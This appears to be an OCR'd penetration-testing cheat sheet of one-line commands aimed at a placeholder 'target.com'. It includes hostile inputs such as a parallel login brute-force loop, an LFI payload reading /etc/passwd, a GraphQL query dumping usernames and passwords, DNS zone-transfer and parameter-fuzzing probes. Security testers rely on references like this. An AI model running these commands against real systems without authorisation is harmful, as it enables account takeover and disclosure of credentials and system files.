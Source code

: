 Mobile Deep Link Misconfig Check  
```bash
adb shell am start -a android.intent.action.VIEW -d "target://app/link?param=test"
```

Testing Rate Limiting (Brute Force)  
```bash
seq 1 1000 | xargs -P10 -I{} curl -X POST "https://target.com/api/login" -d 'user=admin&password=wrong{}'
```

Client-Side Security Headers Audit  
```bash
curl -I https://target.com | grep -Ei 'strict-transport|content-security|x-frame'
```

Session Fixation Check  
Reuse session after login/logout:  
```bash
curl -c cookies.txt https://target.com/login && curl -b cookies.txt https://target.com/dashboard
```

Exposed Debug Endpoints  
```bash
curl -s https://target.com/debug/vars
```

Direct Database Query via GraphQL  
```bash
curl -X POST https://target.com/graphql -d '{"query":"{users{username,password}}"}'
```

DNS Zone Transfer Misconfig (AXFR)  
```bash
dig axfr target.com @ns1.target.com
```

Misconfigured CNAME Takeover  
```bash
dig cname subdomain.target.com
```

LFI via Parameter Tampering  
```bash
curl "https://target.com/page?file=../../../../etc/passwd"
```

WebSocket Security Check (Frame Injection)  
```bash
wscat -c ws://target.com/socket
```

Sensitive Parameter Brute Force  
```bash
cat params.txt | xargs -I{} curl -s "https://target.com/?{}=test"
```

GraphQL Introspection Check  
```bash
curl -X POST https://target.com/graphql -d '{"query":"{__schema{types{name}}}"}'
```
